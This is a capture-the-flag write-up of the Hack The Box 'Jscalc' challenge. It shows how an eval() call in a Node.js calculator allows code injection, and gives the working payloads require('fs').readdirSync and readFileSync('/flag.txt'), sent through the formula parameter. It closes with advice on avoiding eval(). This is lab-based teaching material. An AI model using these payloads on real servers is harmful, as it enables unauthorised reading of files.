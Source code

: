 # Jscalc Challenges — HTB (easy) — Writeup

![screenshot](https://miro.medium.com/v2/resize:fit:2000/format:webp/1*3IfdUVIvNhAZEAUKEz_cAw.png)

## Description

In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑

---

## TL;DR

I found an `eval()` usage in a Node.js-powered site which allowed remote code execution (RCE) via JavaScript. By requiring the Node `fs` module I listed the filesystem and read `/flag.txt`.

---

## What I did — step by step

### 1. Download & unzip

After downloading the challenge files and unzipping them we see the extracted files:

![screenshot](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*Alc3Jf5AYxSq7Wo-faGRSw.png)

Nothing interesting at first glance, so I inspected the web app.

### 2. Open the website

![screenshot](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aMJoxNYzC_JaQveYS5ZD6Q.png)

### 3. Spot `eval()` usage

The site uses `eval()` to evaluate formulas. Quick reminder: `eval()` executes the string it's given in the caller's context — if that string can be influenced by an attacker, it can run arbitrary code in the environment of the webpage (or the Node process if running server-side).

![screenshot](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*ow1lbwAvkE_f7CFyCNPjCA.png)

Because `package.json` showed the app runs on **Node.js**, server-side JavaScript execution opens the door to `require()` and the full Node API — meaning we can attempt RCE.

![screenshot](https://miro.medium.com/v2/resize:fit:2000/format:webp/1*BHu3oMUgpRV9gAT1h03EVQ.png)

### 4. Intercepting requests with Burp Suite

I inspected requests with Burp and noticed the endpoint accepts a `formula` parameter. I tested injecting `require('fs')` into that parameter.

![screenshot](https://miro.medium.com/v2/resize:fit:2000/format:webp/1*AZRueOxoAUjc0eqtheQWnQ.png)

### 5. Using `fs` to explore the filesystem

Once `require('fs')` worked, I used `readdirSync()` to list directories. Example payload (sent through the `formula` parameter):

```js
require('fs').readdirSync('../').toString();
```

The response returned (root listing):

```
app, bin, dev, etc, flag.txt, home, lib, media, mnt, opt, proc, root, run, sbin, srv, sys, tmp, usr, var
```

This confirmed we were able to read server filesystem contents and that `/flag.txt` exists at the root.

### 6. Read the flag

Next payload to read the flag file:

```js
require('fs').readFileSync('/flag.txt').toString();
```

![screenshot](https://miro.medium.com/v2/resize:fit:2000/format:webp/1*AZRueOxoAUjc0eqtheQWnQ.png)

And — boom — we obtained the flag.

---

## Commands / payloads used

* List root directory:

```js
require('fs').readdirSync('../').toString();
```

* Read the flag:

```js
require('fs').readFileSync('/flag.txt').toString();
```

---

## Notes & mitigation

* Avoid using `eval()` on untrusted input. If dynamic expression evaluation is required, use safe parsers or sandboxed interpreters.
* On Node.js, never expose `require`/internal modules via user-controllable evaluation contexts.
* Validate and sanitize any user-supplied expressions, or run them inside a strict sandbox like a separate process with minimal privileges.

---

## Final

Thanks for reading